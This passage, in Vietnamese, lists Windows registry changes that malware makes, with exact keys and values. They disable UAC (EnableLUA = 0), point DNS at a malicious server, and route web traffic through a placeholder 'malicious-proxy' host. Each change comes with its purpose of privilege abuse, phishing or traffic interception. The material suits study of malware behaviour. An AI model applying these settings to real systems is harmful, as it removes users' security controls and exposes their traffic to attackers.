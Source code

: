 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System


Thay đổi:

Thay đổi giá trị DWORD:

EnableLUA = 0



Mục đích:

Vô hiệu hóa UAC, cho phép mã độc thực hiện các hành động yêu cầu quyền quản trị mà không cần sự cho phép của người dùng.




---

10. Thay đổi cài đặt DNS

Khóa Registry:

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters


Thay đổi:

Thay đổi giá trị chuỗi:

NameServer = "8.8.8.8, 8.8.4.4" (thay bằng máy chủ DNS độc hại)



Mục đích:

Chuyển hướng lưu lượng mạng thông qua máy chủ DNS độc hại, phục vụ lừa đảo hoặc tấn công trung gian.




---

11. Thiết lập proxy độc hại

Khóa Registry:

HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings


Thay đổi:

Thay đổi các giá trị:

ProxyEnable = 1

ProxyServer = "http://malicious-proxy:port"



Mục đích:

Chuyển hướng lưu lượng truy cập Internet thông qua proxy độc hại, giám sát và thu thập thông tin người dùng.

